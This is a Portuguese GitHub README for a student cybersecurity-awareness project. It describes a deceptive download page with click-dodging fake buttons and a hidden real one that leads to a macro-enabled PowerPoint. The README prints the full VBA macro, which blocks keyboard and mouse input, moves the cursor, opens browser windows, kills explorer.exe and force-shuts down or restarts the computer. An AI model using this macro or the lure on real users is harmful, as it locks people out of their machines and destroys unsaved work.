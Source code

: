 

[![GitHub Pages](https://img.shields.io/badge/GitHub-Pages-327FC7?style=flat-square&logo=github)](https://d3z33.github.io/fontesenai/)
[![HTML5](https://img.shields.io/badge/HTML5-E34F26?style=flat-square&logo=html5&logoColor=white)](https://developer.mozilla.org/en-US/docs/Web/HTML)
[![CSS3](https://img.shields.io/badge/CSS3-1572B6?style=flat-square&logo=css3&logoColor=white)](https://developer.mozilla.org/en-US/docs/Web/CSS)
[![JavaScript](https://img.shields.io/badge/JavaScript-F7DF1E?style=flat-square&logo=javascript&logoColor=black)](https://developer.mozilla.org/en-US/docs/Web/JavaScript)

## Visão Geral

Este projeto faz parte de um curso voltado para os Princípios de Cibersegurança, cujo objetivo é demonstrar cenários simulados de ataques cibernéticos, além de realizar exercícios práticos utilizando tecnologias como HTML, CSS, JavaScript e VBA Macros no PowerPoint. O projeto aborda questões como segurança digital, ameaças online e conscientização dos participantes sobre os riscos presentes na internet.

## 🚀 Acesse o Projeto

Você pode acessar a página do projeto clicando no botão abaixo:

[![Clique aqui para abrir a página do projeto](https://img.shields.io/badge/Abrir-Projeto-2D8CFF?style=for-the-badge)](https://d3z33.github.io/fontesenai/)


## 🌐 Funcionamento do Site

- **Página Inicial:**

O site foi criado para ser interativo e educacional. Ao acessar a página, o usuário é recebido com um botão principal: “Clique aqui para o Download do Arquivo”.


- **Interação do Usuário:**

Ao clicar no botão principal, o botão desaparece em forma de fumaça e é substituído por vários outros botões dispostos de maneira aleatória.

- **Enganação Intencional:** 

Esses novos botões parecem oferecer a opção de download, mas ao tentar clicar neles, eles se movem rapidamente de forma aleatória para impedir que o usuário os clique. Isso foi feito para simular uma experiência de ataque frustrante ou enganosa, comum em cenários de engenharia social.


- **Acesso ao Arquivo:**

Somente um dos botões está fixo de forma minúscula e fornece o download do arquivo real, que é um arquivo PowerPoint (.pptm) contendo uma macro VBA que realiza simulações.

O botão de download real foi propositalmente disfarçado, colocado no canto inferior da tela e minimizado para dificultar sua localização.

Importante: Para acessar o conteúdo da simulação, o usuário deve baixar o arquivo PowerPoint e autorizar a execução das macros.


## 🛠️ Tecnologias Utilizadas

Este projeto foi desenvolvido com as seguintes tecnologias:

- **HTML5**: A estrutura da página foi criada utilizando HTML5, a última versão da linguagem de marcação padrão para a criação de páginas web.

- **CSS3**: O layout e o estilo visual foram implementados com CSS3, permitindo uma personalização sofisticada e responsiva.
  
- **JavaScript**: A lógica interativa e os efeitos dinâmicos foram programados em JavaScript, proporcionando uma experiência de usuário avançada e imersiva.
  
- **VBA Macros**: Utilizado no PowerPoint para criar uma simulação de ataque.
  

## 📂 Estrutura do Projeto

A estrutura de diretórios do projeto é organizada da seguinte forma:

```bash
fontesenai/
├── index.html         # Página principal do projeto
├── styles.css         # Arquivo de estilos CSS
├── script.js          # Script JavaScript para a interação
├── README.md          # Documentação do projeto
└── assets/            # Arquivos de mídia, imagens e ícones utilizados
    ├── 0.jpeg
    ├── 1.jpeg
    ├── 2.jpeg
    ├── 3.jpeg
    ├── 4.jpeg
    ├── 5.jpeg
    └── Apresentasao-Ciber.pptm  # Arquivo PowerPoint usado na simulação
```
## 📜 Instruções para Execução do PowerPoint

- **Ambiente Controlado**

**Acessar a Página:** [Aqui](https://d3z33.github.io/fontesenai/) para abrir a página do projeto.

O arquivo PowerPoint contém macros VBA que simulam um ataque cibernético. É recomendado que o teste seja realizado em um ambiente controlado.

**Habilitar Macros**:

Após o download, o PowerPoint solicitará que você habilite as macros. É necessário adicionar a pasta onde o arquivo foi salvo como local confiável, caso contrário, as macros não serão executadas.
Execução da Macro:

A partir do slide 3 do arquivo PowerPoint, qualquer clique no slide aciona a macro. Isso simula um ataque, causando uma série de ações no sistema, como o movimento descontrolado do mouse, desativação do teclado, abertura de janelas e, por fim, a reinicialização ou desligamento do computador.

## 🎯 Objetivo do Projeto

O objetivo deste projeto é educar e conscientizar os participantes sobre os riscos de segurança na internet. A simulação de um ataque mostra como um cenário realista pode ser perigoso e ilustra a importância da cibersegurança.

## 💻 Código da Macro (VBA) no PowerPoint

Abaixo está o código da macro VBA que simula o ataque:

```bash
' Importa as funções da biblioteca "user32" para mover o cursor do mouse
Declare PtrSafe Function SetCursorPos Lib "user32" (ByVal x As Long, ByVal y As Long) As Long

' Importa a função "Sleep" da biblioteca "kernel32" para adicionar um atraso em milissegundos
Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long)

' Importa a função "BlockInput" da biblioteca "user32" para bloquear as entradas do teclado e mouse
Declare PtrSafe Function BlockInput Lib "user32" (ByVal fBlockIt As Long) As Long

' Importa a função "GetSystemMetrics" da biblioteca "user32" para obter as dimensões da tela
Declare PtrSafe Function GetSystemMetrics Lib "user32" (ByVal nIndex As Long) As Long

' Importa a função "ShellExecute" da biblioteca "shell32.dll" para executar arquivos ou abrir URLs
Declare PtrSafe Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" ( _
    ByVal hwnd As Long, _
    ByVal lpOperation As String, _
    ByVal lpFile As String, _
    ByVal lpParameters As String, _
    ByVal lpDirectory As String, _
    ByVal nShowCmd As Long) As Long

' Sub rotina principal que simula o ataque
Sub ExecutarSimulacao()

    ' Bloqueia o teclado e o mouse para impedir interações
    BlockInput True

    ' Faz o cursor do mouse se mover de forma descontrolada em um padrão circular
    Dim i As Long
    For i = 1 To 1000

        ' Calcula a posição do mouse baseada no cosseno e seno para criar o movimento circular
        SetCursorPos (GetSystemMetrics(0) / 2) + 50 * Cos(i), (GetSystemMetrics(1) / 2) + 50 * Sin(i)

        ' Pausa de 1 milissegundo entre cada movimento do mouse para criar fluidez
        Sleep 1
    Next i

    ' URLs das imagens que serão abertas em novas janelas do Chrome
    Dim urls As Variant
    Dim j As Integer
    urls = Array("https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/5.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/4.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/3.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/2.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/1.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/0.jpeg")

    ' Abre cada URL em uma nova janela do Chrome, com um pequeno atraso entre cada uma
    For j = 0 To UBound(urls)

        ' Abre o Chrome em uma nova janela maximizada com a URL correspondente
        ShellExecute 0, "open", "chrome.exe", "--start-maximized --new-window " & urls(j), vbNullString, vbNormalFocus

        ' Pausa de 1200 milissegundos (1,2 segundos) entre a abertura de cada aba
        Sleep 1200
    Next j

    ' Pausa de 1,2 segundos antes de fechar o explorador de arquivos
    Sleep 1200

    ' Fecha o explorador de arquivos do Windows para simular um impacto maior no sistema
    Shell "taskkill /f /im explorer.exe", vbHide

    ' Escolhe aleatoriamente entre desligar ou reiniciar o sistema
    Randomize

    If Rnd < 0.5 Then
        ' Desliga o sistema imediatamente
        Shell "shutdown -s -f -t 0", vbHide  ' Desligar
    Else
        ' Reinicia o sistema imediatamente
        Shell "shutdown -r -f -t 0", vbHide  ' Reiniciar
    End If
End Sub
```

## 🛠️ Instruções Gerais

- **Execução Manual Não Recomendada:**
   A simulação é programada para ser automática. Caso as macros não sejam executadas corretamente, a simulação não terá efeito.

- **Ambiente Seguro:**
Para evitar problemas, execute este teste em um ambiente seguro ou em máquinas virtuais.

- **Desempenho do Sistema:**
Durante a execução da macro, o sistema pode sofrer impacto no desempenho, como fechamento de aplicações e reinicialização do sistema.


### Explicações:

- **Ícones de Tecnologias**: Usei ícones para HTML5, CSS3, e JavaScript, que são as tecnologias principais usadas neste projeto.

- **Botão de Acesso**: Um botão grande e claro que leva diretamente à página do projeto.

- **Estrutura do Projeto**: Descrição da estrutura de diretórios para facilitar a compreensão do projeto.

- **Objetivo e Instruções**: Uma seção clara sobre o propósito do projeto e como utilizá-lo.

## ⌨️ com ❤️ por [D3Z33] 🧑‍💻 🎓
